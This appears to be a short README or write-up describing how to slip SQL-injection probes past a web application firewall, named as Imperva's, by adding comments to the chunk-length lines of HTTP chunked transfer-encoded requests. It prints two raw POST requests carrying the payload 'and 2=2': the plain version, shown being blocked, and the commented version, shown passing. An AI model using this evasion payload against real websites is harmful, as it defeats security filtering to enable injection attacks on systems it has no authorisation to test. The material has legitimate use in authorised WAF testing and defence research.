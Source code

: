 Scramble chunked packets with annotations 

At this time, if you try to bypass the conventional chunked transmission method directly, Will be directly identified and blocked by WAF.      

Almost all WAFs that can identify a Transfer-Encoding packet, but some do not process the comment at the length identifier in the packet. As a result, if a comment is added to the packet, the WAF will not recognize the packet.    

Now we are testing regular block transfer packets on a website:   

```
POST /xxxxxx.jsp HTTP/1.1
......
Transfer-Encoding: Chunked

9
xxxxxxxxx
9
xx=xxxxxx
9
xxxxxxxxx
1
d
9
&a=1	and	
3
2=2
0
```
The returned results are shown in the following figure   
![Capture](https://user-images.githubusercontent.com/25066959/70383201-da9f7380-1937-11ea-9330-00ec7f5e30a2.PNG)
You can see that our attack payload "and 2 = 2" was intercepted by Imperva's WAF.    
At this time, we add the block transmission packet with a comment.    
```
POST /xxxxxx.jsp HTTP/1.1
......
Transfer-Encoding: Chunked

9
xxxxxxxxx
9
xx=xxxxxx
9
xxxxxxxxx
1;testsdasdsad
d
9;test
&a=1	and	
3;test44444
2=2
0
```
The returned results are shown in the following figure.    
![Capture](https://user-images.githubusercontent.com/25066959/70383265-b7c18f00-1938-11ea-9633-35eee3316363.PNG)
You can see that the firewall has stopped intercepting this payload.